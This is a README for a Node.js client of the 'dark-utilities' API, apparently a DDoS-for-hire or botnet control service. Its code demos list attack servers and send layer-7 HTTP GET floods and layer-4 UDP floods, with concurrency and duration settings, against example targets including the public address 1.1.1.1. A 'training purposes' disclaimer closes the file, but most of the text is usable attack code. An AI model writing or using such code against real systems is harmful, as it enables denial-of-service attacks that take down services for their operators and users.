 # Dark-Utilities API Node-Js
 Description :
   * -> Using the dark-utilities API in node js
   * -> Utilisation de l'API dark-utilities en node js

 ### Dependencies npm :
  * [phin](https://www.npmjs.com/package/phin "lien")

 ### Require :
  * -> [Node-Js](https://www.digitalocean.com/community/tutorials/how-to-install-node-js-on-ubuntu-20-04-fr)
 
### Installation :
  * To use it you need to have dark-utilities and install phin `npm i phin`

### Quick Demos

Get Status code (API)
```js
darkutilities.StatusApi().then(status => {
    console.log(status);
});
```

Get User Information
```js
darkutilities.getUserInfo().then(info => {
    console.log(info);
});
```

Get Server List
```js
darkutilities.getServerList().then(server => {
    console.log(server);
});
```

Get Server Info
```js
darkutilities.getServerInfo('fd06d2f5192fd94341543d15ae8158bb').then(server => {
    console.log(server);
});
```

Send attack ddos-layer7
```js
darkutilities.sendAttack('ddos-layer7', {
    'method': 'GET',
    'target': 'https://exemple.com/hit',
    'concurrents': 100,
    'time': 20
}, [
    { "server_id": "fd06d2f5192fd94341543d15ae8158bb", 'server_selected': true },
]).then(attack => {
    console.log(attack);
});
```

Send attacks ddos-layer4
```js
darkutilities.sendAttack('ddos-layer4', {
    'method': 'UDP',
    'target': '1.1.1.1',
    'port': 80,
    'concurrents': 10,
    'time': 20
}).then(attack => {
    console.log(attack);
});
```

Get Attack List
```js
darkutilities.getAttacks().then(attacks => {
    console.log(attacks);
});
```

This script was made for training purposes
Note to kiddies: Please do not affiliate me with dark-utilities 
